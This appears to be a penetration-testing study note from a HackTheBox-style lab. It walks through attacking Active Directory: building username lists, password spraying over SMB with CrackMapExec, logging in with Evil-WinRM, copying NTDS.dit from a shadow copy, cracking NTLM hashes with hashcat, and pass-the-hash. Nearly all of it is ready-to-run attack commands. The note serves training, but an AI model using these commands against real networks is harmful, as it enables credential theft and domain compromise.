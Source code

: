 # Attacking Active Directory & NTDS.dit

## Basic Information

### Common username convention

| Username Convention                 | Practical Example for Jane Jill Doe |
| ----------------------------------- | ----------------------------------- |
| `firstinitiallastname`              | jdoe                                |
| `firstinitialmiddleinitiallastname` | jjdoe                               |
| `firstnamelastname`                 | janedoe                             |
| `firstname.lastname`                | jane.doe                            |
| `lastname.firstname`                | doe.jane                            |
| `nickname`                          | doedoehacksstuff                    |

> The best way to know is to find a username somewhere in other services. This will give us the username format eg. jdoe@example.com.

After finding all the names possible in the company's website, image metadata, databases, etc. This might be a complicated job for us to convert those names into the convention (if there are no emails found.)

To solve such problem, there are few tools that help automate the username formating task such as [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)&#x20;

We can run it on the list of names found

```shell-session
./username-anarchy -i /home/ltnbob/names.txt 
```

or we could specify the format

```
./username-anarchy --input-file ./test-names.txt  --select-format first.last
```

### **CrackMapExec**

Using the credentials generated we can try to brute froce the smb share using the usernames and common passwords

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

> Note That: this could potentially lock out the account if the setting is configured to lock out multiple faild attemps. However, the setting is not set by default, so the chances of it being misconfigured is there.

## Capturing NTDS.dit

### Method 1&#x20;

#### **Connecting to a DC with Evil-WinRM**

We can connect to a target DC using the credentials we captured.

```shell-session
carbonlky@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

**Checking Local Group Membership and User Account Privileges including Domain**

```shell-session
*Evil-WinRM* PS C:\> net localgroup
*Evil-WinRM* PS C:\> net user bwilliamson
```

> To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights.

**Creating Shadow Copy of C: and Copying NTDS.dit from the VSS**

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Then transfer the NTDS.dit to our attack machine.

### Method 2

**Using cme to Capture NTDS.dit**

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

## Captured NTDS.dit

### Crack the hash

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

if the hash couldn't be cracked consider using PtH vulnerability

### Pass-the-Hash

`Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`

eg.

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
